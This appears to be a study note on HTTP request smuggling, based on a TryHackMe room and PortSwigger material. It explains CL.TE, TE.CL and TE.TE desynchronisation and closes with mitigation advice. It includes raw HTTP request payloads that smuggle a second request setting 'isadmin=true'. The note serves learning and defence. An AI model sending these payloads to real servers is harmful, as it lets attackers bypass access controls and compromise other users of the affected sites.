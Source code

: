 # HTTP Request Smuggling

[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) states: *HTTP request smuggling is a technique for interfering with the way a web site processes sequences of HTTP requests that are received from one or more users. Request smuggling vulnerabilities are often critical in nature, allowing an attacker to bypass security controls, gain unauthorized access to sensitive data, and directly compromise other application users.Request smuggling is primarily associated with HTTP/1 requests. However, websites that support HTTP/2 may be vulnerable, depending on their back-end architecture.*

Given modern web application infrastructure:
![1920](modern-web-applications-http-request-smuggling.excalidraw)
There can be:
- Front-end servers
- Back-end servers
- Databases
- APIs
- Microservices
- Load Balancers
- Reverse Proxies
- Cache Mechanisms - storing data, results for future use - generally to reduce compute and network requests made by infrastructure
	- Content Caching - caching unchanging web content   
	- Database Query caching - caching the results of frequent query 
	- Full-page Caching - Entire page is cache so users do not need to regenerate them
	- Edge Caching/CDNs -  Content Delivery Networks (CDNs) cache content closer to the users
	- API Caching - caching API frequently used or all responses 

## Defining a HTTP Request Smuggling Attack 

HTTP Request Smuggling can occur when multiple different servers interpret HTTP request boundaries and the processing sequences of HTTP requests received create discrepancies in interpretation. 
- Conflicting Headers lead to (most like) undefined prioritisation
	- Either `Content-Length` and `Transfer-Encoding` headers

## Techniques

#### HTTP Request Smuggling CL.TE

CL.TE denotes Content-Length/Transfer-Encoding: front-end server and the back-end server interprets the request boundaries differently
- `Content-Length: 80` - Size matters how the server that interprets this header. 
- `Transfer-Encoding: chunked` is interpreted as a `0` and therefore end of a chunk, the second request 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST /search HTTP/1.1
Host: example.com
Content-Length: 80
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```
#### HTTP Request Smuggling TE.CL

TE.CL denotes Transfer-Encoding/Content-Length: front-end server uses the Transfer-Encoding header to determine the end of a request, and the back-end server uses the Content-Length header.
- `Transfer-Encoding: chunked` is interpreted as chunked up to  `0` by front-end as part of the first request 
- `Content-Length: 4` is interpreted by the back-end and then process only the first 4 bytes of the request; then the remaining part of the request, from `POST /update...` is then process 

Example from [THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling):
```php
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

4c
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```

#### HTTP Request Smuggling TE.TE 

TE.TE or Transfer-Encoding/Transfer-Encoding  is known as Transfer Encoding Obfuscation where two servers handle the `Transfer-Encoding` header inconsistently. Either using:
- Multiple `Transfer-Encoding` headers
- Single malformed `Transfer-Encoding` header 
```php
POST / HTTP/1.1
Host: example.com
Content-length: 4
// Either front-end will interpret or..
// ..Malformed header that will be ignored and interpret to the 0
Transfer-Encoding: chunked  
Transfer-Encoding: chunked1 
// back-end would either reject malformed or process similar to front-end
// Or interpret process only the first `4` bytes from Content-Length and then process then next part of the request:

4c
POST /update HTTP/1.1
Host: example.com
Content-length: 15

isadmin=true
0 
```

#### Mitigation and Prevention Strategies for HTTP/1


1. **Consistent Header Processing**: All servers, whether front-end or back-end, should consistently process headers. Any discrepancy can open the door for smuggling.
2. **Adopt HTTP/2**: HTTP/2 offers a more robust mechanism for handling request boundaries, making it a safer choice against smuggling attacks.
3. **Regular Monitoring and Audits**: Continuously monitor web server traffic for signs of smuggling attempts and conduct regular audits to ensure server configurations are up-to-date and secure.
4. **Educate Teams**: Ensure that development and operations teams are well-informed about the risks of request smuggling and the best practices to prevent it.


## References

[THM HTTP Request Smuggling Room](https://tryhackme.com/room/httprequestsmuggling)
[PortSwigger's HTTP Request Smuggling](https://portswigger.net/web-security/request-smuggling) 